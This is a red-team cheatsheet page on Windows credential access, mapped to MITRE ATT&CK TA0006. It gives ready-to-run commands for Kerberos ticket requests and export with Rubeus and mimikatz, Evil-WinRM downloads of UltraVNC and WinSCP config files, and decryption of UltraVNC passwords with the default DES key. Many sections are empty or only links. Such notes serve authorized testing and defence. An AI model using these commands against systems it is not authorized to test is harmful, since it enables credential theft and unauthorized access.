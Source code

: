 ```yaml
---
layout: post
title: TA0006 Credentials Access - Windows
category: pen
parent: cheatsheets
modified_date: 2023-03-13
permalink: /pen/credsaccess-win
---
```


**Mitre Att&ck Entreprise**: [TA0006 - Credentials Access](https://attack.mitre.org/tactics/TA0006/)

**Menu**
<!-- vscode-markdown-toc -->
* [Multi-features Hacking Tools](#Multi-featuresHackingTools)
* [T1558: Steal and Forge Kerberos Tickets](#T1558:StealandForgeKerberosTickets)
	* [Which OS ? What Creds ?](#WhichOSWhatCreds)
	* [Rubeus](#Rubeus)
	* [Kerberos ASKTGT](#KerberosASKTGT)
	* [Import / Export Tickets](#ImportExportTickets)
* [LSASS.exe dump](#LSASS.exedump)
* [SAM dump](#SAMdump)
* [Services](#Services)
* [Scheduled Tasks](#ScheduledTasks)
* [Sofwares](#Sofwares)
	* [Automated](#Automated)
	* [mRemoteNG](#mRemoteNG)
	* [xVNC](#xVNC)
	* [WinSCP](#WinSCP)
	* [Putty](#Putty)
	* [Web Browsers](#WebBrowsers)
* [NTDS.dit dump](#NTDS.ditdump)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='Multi-featuresHackingTools'></a>Multi-features Hacking Tools

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var repos = ["https://api.github.com/repos/gentilkiwi/mimikatz/","https://api.github.com/repos/skelsec/pypykatz", "https://api.github.com/repos/SecureAuthCorp/impacket", "https://api.github.com/repos/Hackndo/lsassy", "https://api.github.com/repos/deepinstinct/Lsass-Shtinkering","https://api.github.com/repos/D1rkMtr/DumpThatLSASS","https://api.github.com/repos/codewhitesec/HandleKatz","https://api.github.com/repos/Z4kSec/Masky","https://api.github.com/repos/login-securite/DonPAPI","https://api.github.com/repos/Processus-Thief/HEKATOMB","https://api.github.com/repos/AlessandroZ/LaZagne"]; for (rep in repos) {$.ajax({type: "GET", url: repos[rep], dataType: "json", success: function(result) {$("#repo_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.updated_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="repos">
    <table id="repo_list" class="sortable">
      <tr><th>repo</th><th>last update</th><th>stars</th><th>watch</th><th>language</th></tr>
    </table>
</div>

## <a name='T1558:StealandForgeKerberosTickets'></a>T1558: Steal and Forge Kerberos Tickets 

### <a name='WhichOSWhatCreds'></a>Which OS ? What Creds ?

![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)

TO READ: 
* [OS credentials dumping - mitre T1003](https://attack.mitre.org/techniques/T1003/001/)
* [LSA RunAsPPL protection](https://itm4n.github.io/lsass-runasppl/)

### <a name='Rubeus'></a>Rubeus 

- [Wiki](https://github.com/GhostPack/Rubeus)
- Compilation :
```powershell
# compilation
```

### <a name='KerberosASKTGT'></a>Kerberos ASKTGT 
```powershell
# Path on VM Mandiant Commando
cd C:\Tools\GhostPack\Rubeus\Rubeus\bin\Debug
./Rubeus.exe asktgt /user:$zlat_user /password:"PASSWORD" /domain:$zdom /dc:$zdom_dc_fqdn /ptt
```

### <a name='ImportExportTickets'></a>Import / Export Tickets
```powershell
cd C:\tools\mimikatz\x64
mimikatz.exe privilege:debug
kerberos::list /export
```

## <a name='LSASS.exedump'></a>LSASS.exe dump

- [redteamrecipe 50 methods](https://redteamrecipe.com/50-Methods-For-Dump-LSASS/) 🔥
- [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump)

## <a name='SAMdump'></a>SAM dump

- [registry & vss](https://nored0x.github.io/red-teaming/Windows-Credentials-SAM-Database-part-1/)

## <a name='Services'></a>Services

## <a name='ScheduledTasks'></a>Scheduled Tasks

## <a name='Sofwares'></a>Sofwares

### <a name='Automated'></a>Automated

<script>$(window).load(function() {var reposs = ["https://github.com/Arvanaghi/SessionGopher", "https://github.com/EncodeGroup/Gopher", "https://api.github.com/repos/login-securite/DonPAPI","https://api.github.com/repos/AlessandroZ/LaZagne"]; for (repp in reposs) {$.ajax({type: "GET", url: reposs[repp], dataType: "json", success: function(result) {$("#repo_listt").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.updated_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<div id="reposs">
    <table id="repo_listt" class="sortable">
      <tr><th>repo</th><th>last update</th><th>stars</th><th>watch</th><th>language</th></tr>
    </table>
</div>

### <a name='mRemoteNG'></a>mRemoteNG

- [password decryption](https://github.com/S3cur3Th1sSh1t/mRemoteNG-Decrypt)

### <a name='xVNC'></a>xVNC

* VNC softwares properties:  

| software | registry key | ini file |
|----------|--------------|--------|
| RealVNC | HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver | C:\Program Files\RealVNC\ |
| TightVNC | HKEY_CURRENT_USER\Software\TightVNC\Server | C:\Program Files\TightVNC\ |
| TigerVNC | HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4 | C:\Program Files\TigerVNC\ |
| UltraVNC | | C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini |

* Example of download of the ini file:
```
Evil-winRM > download "C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini" /tmp/ultravnc.ini
```

* UtltraVNC specificities

passwd - full control password
passwd2 - read-only password
```
# des decryption using the ultravnc default decryption key 'e84ad660c4721ae0' 
echo -n passwd | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv

# test the password / vnc access
vncsnapshot 1.2.3.4 pwned_desktop_x.png
```


### <a name='WinSCP'></a>WinSCP

* Get an RDP session
* Check if there are saved passwords
* Export the configuration
* Download of the ini file:
```
Evil-winRM > download "C:\Windows\Temp\winscp.ini" /tmp/winscp.ini
```

### <a name='Putty'></a>Putty

### <a name='WebBrowsers'></a>Web Browsers
- [chrome / mac os](https://github.com/breakpointHQ/chrome-bandit)

## <a name='NTDS.ditdump'></a>NTDS.dit dump